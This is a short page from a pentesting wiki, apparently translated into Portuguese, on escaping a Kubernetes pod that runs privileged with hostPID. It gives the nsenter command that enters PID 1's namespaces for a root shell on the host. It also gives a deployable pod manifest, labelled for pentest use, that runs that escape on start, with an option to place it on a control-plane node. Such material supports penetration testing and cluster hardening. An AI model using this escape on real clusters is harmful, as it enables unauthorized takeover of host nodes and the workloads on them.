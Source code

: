 # Pod Escape Privileges

{{#include ../../../banners/hacktricks-training.md}}

## Privileged and hostPID

Com esses privilégios, você terá **acesso aos processos do host** e **privilégios suficientes para entrar no namespace de um dos processos do host**.\
Observe que você pode potencialmente não precisar de privilégios, mas apenas de algumas capacidades e outras possíveis contornos de defesas (como apparmor e/ou seccomp).

Apenas executar algo como o seguinte permitirá que você escape do pod:
```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```
Exemplo de configuração:
```yaml
apiVersion: v1
kind: Pod
metadata:
name: priv-and-hostpid-exec-pod
labels:
app: pentest
spec:
hostPID: true
containers:
- name: priv-and-hostpid-pod
image: ubuntu
tty: true
securityContext:
privileged: true
command:
[
"nsenter",
"--target",
"1",
"--mount",
"--uts",
"--ipc",
"--net",
"--pid",
"--",
"bash",
]
#nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
```
{{#include ../../../banners/hacktricks-training.md}}

